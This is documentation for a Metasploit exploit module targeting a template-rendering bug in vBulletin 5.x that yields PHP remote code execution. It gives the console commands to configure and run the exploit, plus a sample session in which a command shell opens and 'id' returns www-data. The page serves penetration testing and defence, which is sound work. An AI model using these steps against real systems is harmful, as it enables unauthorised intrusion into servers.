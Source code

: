 ## Vulnerable Application

[vBulletin](https://www.vbulletin.com) A popular PHP bulletin board and blog web application.
This module has been tested successfully against vBulletin 5.6.2 running on Ubuntu Linux 19.04.

### Description

This module exploits a logic bug within the template rendering code of vBulletin 5.x. The module
uses the vBulletin template rendering functionality to render the 'widget_tabbedcontainer_tab_panel'
template while also providing the 'widget_php' argument which causes the former template to load the
latter bypassing filters originally put in place to address 'CVE-2019-16759'. This also allows the
exploit to reach an eval call with user input allowing the module to achieve PHP remote code execution
on the target. This module has been tested successfully on vBulletin version 5.6.2 on Ubuntu Linux.

## Verification Steps

1. Do: `use exploit/multi/http/vbulletin_widget_template_rce`
2. Do: `set RHOSTS [IP]`
3. Do: `set VHOST [HOSTNAME]`
4. Do: `set LHOST [IP]`
5. Do: `set TARGETURI [PATH]`
6. Do: `set PAYLOAD [PAYLOADNUM]`
7. Do: `run`

## Options

### TARGETURI

The base URI path of vBulletin. **Default: /**

### PHP_CMD

The PHP function to use to execute commands on the target. **Default: shell_exec**

## Scenarios

```
msf > use exploit/multi/http/vbulletin_widget_template_rce
[*] Using configured payload php/meterpreter/reverse_tcp
msf exploit(multi/http/vbulletin_widget_template_rce) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf exploit(multi/http/vbulletin_widget_template_rce) > set VHOST vb.local
VHOST => vb.local
msf exploit(multi/http/vbulletin_widget_template_rce) > set LHOST 0.0.0.0
LHOST => 0.0.0.0
msf exploit(multi/http/vbulletin_widget_template_rce) > set TARGETURI /
TARGETURI => /
msf exploit(multi/http/vbulletin_widget_template_rce) > set PAYLOAD 5
msf exploit(multi/http/vbulletin_widget_template_rce) > run

[*] Executing automatic check (disable AutoCheck to override)
[+] The target is vulnerable.
[*] Sending php/bind_perl command payload
[*] Started bind TCP handler against 127.0.0.1:4444
[*] Command shell session 1 opened (0.0.0.0:0 -> 127.0.0.1:4444) at 2020-08-09 06:29:57 -0500

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
